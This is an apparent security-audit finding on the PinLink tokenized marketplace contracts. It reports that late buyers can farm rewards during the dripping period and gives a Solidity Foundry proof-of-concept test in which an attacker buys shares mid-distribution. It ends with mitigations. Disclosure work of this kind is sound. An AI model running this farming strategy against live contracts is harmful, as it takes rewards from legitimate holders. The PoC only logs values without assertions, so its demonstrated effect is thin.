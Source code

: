 Powerful Arctic Giraffe

Medium

# ## [M-1] Attacker can Farm rewards by entering the system strategically


**Description** 
An attacker can exploit the reward distribution mechanism by entering the system after the reward dripping period begins, allowing them to accumulate unfair rewards compared to early participants. The attacker can repeatedly purchase and sell shares, compounding their rewards unfairly.

**Vulnerability:** Late entry into the system allows an attacker to acquire rewards unfairly by buying shares after the dripping period starts.
Allows late buying 
https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/streams.sol#L81-L85
No locking periods for new buyers
https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/streams.sol#L81-L85

**Impact:**
  - Legitimate users who buy shares at the start get diluted rewards.
  - Attackers can accumulate more rewards unfairly by strategically entering and exiting multiple times.
**Assumptions:**
  1. Assets are available to buy when the dripping period starts.
  2. Rewards are distributed sometime after listing.

**Proof of Concept (PoC):** (BoB is an Attacker)

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.27;

import "./base.t.sol";
import {PinlinkShop, Listing} from "src/marketplaces/pinlinkShop.sol";
import {IPinToken} from "src/interfaces/IPinToken.sol";
import {IAccessControl} from "lib/openzeppelin-contracts/contracts/access/IAccessControl.sol";
import {Test, console2} from "forge-std/Test.sol";
import "./depostiRewards.t.sol";

contract Attack is BaseStakingShopTests {
    //Listing ids
    bytes32 listingId0;
    bytes32 listingId1;
    bytes32 listingId2;
    bytes32 listingId3;
    bytes32 listingId4;

    //Depositer modier no need to write it again and again
    modifier depositRewards(uint256 amount) {
        vm.prank(operator);
        pshop.depositRewards(address(fractions), asset1, amount, 6 hours);
        // let some time pass so that some rewards are dripped
        vm.warp(block.timestamp + 4 hours);
        _;
    }

    function setUp() public override {
        super.setUp();

        vm.startPrank(admin);
        pshop.enableAsset(address(fractions), asset1, admin);
        pshop.enableAsset(address(fractions), asset2, admin);

        listingId0 = pshop.list(
            address(fractions),
            asset1,
            70,
            8000e18,
            block.timestamp + 11 days
        );
        listingId1 = pshop.list(
            address(fractions),
            asset1,
            30,
            10000e18,
            block.timestamp + 12 days
        );
        listingId2 = pshop.list(
            address(fractions),
            asset2,
            100,
            2000e18,
            block.timestamp + 5 days
        );
        vm.stopPrank();
        //Dealing alice account so that he can purchase the shares
        deal(address(PIN), alice, 10_000_000e18);
        deal(address(PIN), bob, 10_000_000e18);
        //Purcahsing
        //_doPurchase(listingId0, 30, alice);
    }
    function test_StepAttackStrat() public {
        _doPurchase(listingId0, 30, alice);
        skip(9 days);

        vm.startPrank(admin);
        oracle.updateTokenPrice(1e18); //avoiding stale price
        vm.stopPrank();

        _doPurchase(listingId0, 30, bob);

        vm.startPrank(operator);
        pshop.depositRewards(address(fractions), asset1, 100e18, 2 days);
        vm.stopPrank();
        skip(1 days);

        uint256 After_AttaackReward_bob1 = pshop.getPendingRewards(
            address(fractions),
            asset1,
            bob
        );
        console2.log("1st deposit Bob:", After_AttaackReward_bob1);

        vm.startPrank(admin);
        oracle.updateTokenPrice(1e18); //avoiding stale price
        vm.stopPrank();

        _doPurchase(listingId0, 10, bob);// buying after reward perod starts
        skip(1 days);

        uint256 Bob_reward_after_2nd_Deposit = pshop.getPendingRewards(
            address(fractions),
            asset1,
            bob
        );

        uint256 After_AttaackReward_alice = pshop.getPendingRewards(
            address(fractions),
            asset1,
            alice
        );

        console2.log("After Reward Alice: ", After_AttaackReward_alice);
        console2.log("Total Bob reward:", Bob_reward_after_2nd_Deposit);
        console2.log("Dripping Period:", _getDrippingPeriod(address(fractions), asset1));
    }   
}
```

**Mitigation:**

1. **Implement a Lock-in Period**
   - Require users to hold assets for a minimum period before they can claim rewards.
2. **Pause Asset Purchases During Dripping Period**
   - Restrict users from buying shares once the reward dripping period starts.
   - Prevents new entrants from taking advantage of ongoing distributions.